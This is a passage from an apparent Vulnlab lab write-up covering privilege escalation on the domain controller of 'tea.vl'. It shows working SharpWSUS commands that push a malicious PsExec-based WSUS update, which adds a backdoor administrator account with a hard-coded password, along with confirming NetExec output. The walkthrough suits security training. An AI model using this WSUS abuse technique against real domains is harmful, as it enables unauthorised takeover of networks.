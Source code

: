 By running `RunasCs`, we can get admin beacon

![](9.png)

## DC.tea.vl
There's also `WSUS-Updates` directory, indicating that there could be WSUS service running

![](10.png)

If we run `SharpWSUS.exe inspect`, we see that SRV is WSUS server

![](11.png)

Let's escalate privileges, we already have `PsExec.exe` in `C:\_install` directory since WSUS is restricted to executing only Microsoft-signed binaries.

![](12.png)

Run the following payload (we can also use [WSUSpendu](https://github.com/alex-dengx/WSUSpendu))
```
SharpWSUS.exe create /payload:"C:\_install\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user pentest Password123! /add && net localgroup administrators pentest /add\\"" /title:"NewAccountUpdate"
```
Then approve it with
```
SharpWSUS.exe approve /updateid:<ID> /computername:dc.tea.vl /groupname:"FastUpdates"
```

So let's do it

![](13.png)

![](14.png)

It will probably fail, so we need to run
```
Get-WinEvent -LogName Application | Where-Object { $_.Id -eq 364 } |fl
```
![](15.png)

Looks like we need to copy `PSExec` to `C:\WSUS-Updates\WsusContent\02\0098C79E1404B4399BF0E686D88DBF052269A302.exe`

![](16.png)

Now, repeat the steps (only change titles). Unfortunately, it wasn't possible to run it from Havoc during the lab due to the fact that arguments were truncated, so `SharpWSUS` was ran from `RDP`. Better run commands one by one (add user, then add user to group).

```
└─$ nxc smb 10.10.146.5 -u pentest -p 'Password123!'
SMB         10.10.146.5     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tea.vl) (signing:True) (SMBv1:False)
SMB         10.10.146.5     445    DC               [+] tea.vl\pentest:Password123! (Pwn3d!)
```

[https://api.vulnlab.com/api/v1/share?id=07ced564-951e-4e75-9d90-58d43be1fdbf](https://api.vulnlab.com/api/v1/share?id=07ced564-951e-4e75-9d90-58d43be1fdbf)